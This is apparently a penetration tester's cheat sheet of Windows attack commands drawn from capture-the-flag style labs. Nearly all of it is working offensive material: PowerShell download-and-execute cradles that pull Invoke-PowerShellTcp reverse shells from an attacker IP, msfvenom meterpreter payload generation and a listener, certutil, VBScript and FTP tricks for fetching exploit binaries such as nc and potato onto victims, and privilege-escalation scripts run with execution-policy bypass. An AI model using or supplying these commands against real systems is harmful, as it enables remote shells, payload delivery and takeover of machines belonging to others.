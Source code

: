 powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002
```
 @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1'))";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 4445
 IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
 ```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

powershell IEX(New-Object Net.WebClient).downloadString(‘http://<attacking machine>/Empire.ps1')


C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\10.10.14.124\kali\tools\enumeration\nmapAutomator\10.129.1.127\MS16-032.ps1

###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
###
If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
###
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"


```
certutil -urlcache -split -f http://10.10.14.124:8000/potato.exe
```

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
```
cscript /nologo wget.vbs http://10.10.14.147/churrasco.exe churrasco.exe
cscript /nologo wget.vbs http://10.10.14.147/nc32.exe nc32.exe

```



### PowerShell Cmdlet (Powershell 3.0 and higher)
```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
PowerShell One-Liner

(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
PowerShell One-Line Script Execution in Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
PowerShell with Proxy

$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
PowerShell Script

echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
Non-interactive FTP via text file. Useful for when you only have limited command execution.

echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
CertUtil

certutil.exe -urlcache -split -f https://myserver/filename outputfilename
Certutil can also be used for base64 encoding/decoding.

certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
Starting with Windows 10 1803 (April 2018 Update) the curl command has been implemented which gives another way to transfer files and even execute them in memory. Piping directly into cmd will run most things but it seems like if you have anything other than regular commands in your script, ie loops, if statements etc, it doesn’t run them correctly.

curl http://server/file -o file
curl http://server/file.bat | cmd
And with PowerShell

IEX(curl http://server/script.ps1);Invoke-Blah
```

